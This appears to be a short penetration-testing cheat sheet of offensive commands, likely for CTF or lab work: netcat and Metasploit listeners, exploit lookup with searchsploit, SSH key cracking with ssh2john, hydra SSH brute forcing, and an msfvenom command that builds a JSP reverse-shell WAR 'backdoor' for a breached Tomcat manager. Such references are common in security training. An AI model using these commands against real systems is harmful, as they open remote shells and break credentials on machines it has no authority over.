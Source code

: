 
## Get Version of Service

NetCat

```
nc IP PORT
```

Listen on port
```
nc IP PORT -lvnp
```

Listen throuh metsploit
```
use exploit/multi/handler
```

## Find Exploits with SearchSploit

```
searchsploit servicename version
```

## Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```



## Metadata

```
exiftool file
```

## Web Server:

```
python3 -m http.server PORT
```

Retrieve:
```
wget http://IP:PORT/PATH
```

# SSH

## SSH with RSA file

```
ssh -i /path/to/file user@IP
```
## Convert id_rsa to crackable

```
python3 /usr/share/john/ssh2john.py id_rsa > file.txt
```

### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


# Apache

## After /manager breach

### Make Offensive WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4449 -f war > backdoor.war
```
